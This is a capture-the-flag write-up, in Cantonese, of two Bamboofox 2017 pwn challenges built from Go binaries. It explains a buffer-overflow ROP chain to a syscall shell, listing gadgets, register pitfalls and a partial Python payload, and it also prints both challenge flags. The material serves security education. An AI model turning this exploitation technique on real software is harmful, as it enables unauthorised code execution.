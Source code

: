 # Bamboofox 2017 infant-gogogo & infant-gotoheaven


兩條基本嘅buffer overflow with ROP不過係用golang compile, 算係1 set 向Seccon 2017 babystack致敬嘅題目

由於兩個都係static linked, 所以乜gadget都有,例如syscall, 只要跟住syscall table 汁藥就可以get shell

不過要留意好多gadget 都會對其他register 有operation 

例如 infant-gogogo :

```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
```
所以行呢句gadget 嘅時候要保證related register 唔係=0x0 

例如:
```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
```

就要保證RSI 唔係等於0x0 , 

所以就要去bss 段求其塞d valid memory address去個d 相關register:

For example:

```python
payload="A"*256
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
buf=0x0052e2a0
rsi=0x0000000000408437
rdx=0x0000000000413d6d
#call read rdi :fd=0 
#rsi:buf 
#rdx:size 
#rax:0x00
payload+=p64(pop_rax_ret)+p64(buf+0x200)
payload+=p64(pop_rdi)+p64(0x0)+p64(rsi)+p64(buf+0x300)
payload+=p64(rdx)+p64(0x8)+p64(pop_rax_ret)+p64(0)+p64(syscall)
```

# Solution :

[infant-gogogo](infant-gogogo.py)


[infant-gotoheaven](infant-gotoheaven.py)


# Flag

```
infant-gogogo: BAMBOOFOX{G0LaNg_iS_aw3s0m3ls!}

infant-gotoheaven : BAMBOOFOX{GOLANG_PWnnnnnnnIng_iS_r3A11Y_W3iRdO_O}

```

# Reference

1. http://shift-crops.hatenablog.com/entry/2017/12/09/200440





